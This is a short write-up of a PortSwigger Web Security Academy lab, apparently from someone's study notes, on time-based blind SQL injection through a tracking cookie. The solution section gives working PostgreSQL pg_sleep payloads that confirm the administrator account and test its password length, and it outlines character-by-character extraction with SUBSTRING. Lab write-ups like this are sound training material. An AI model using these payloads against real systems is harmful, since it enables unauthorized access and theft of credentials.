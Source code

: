 

### Lab description 

This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.


#### hint

>  You can find some useful payloads on our [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).


### Solution


- Buzzing with some delay  ( remember to encoding the chars ; and blank space)
![](../img/Pasted_image_20230605092523.png)
- Get administrator user
	- `'%3bselect+case+when+(username='administrator')+then+pg_sleep(10)+else+pg_sleep(0)+end+from+users--`
![](../img/Pasted_image_20230605093143.png)
- Admin password has **19** chars length `'%3bselect+case+when+(username='administrator'+and+length(password)>19)+then+pg_sleep(10)+else+pg_sleep(0)+end+from+users--`
- `SUBSTRING()` function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.
- Lab solved!

![](../img/Pasted_image_20230605104517.png)

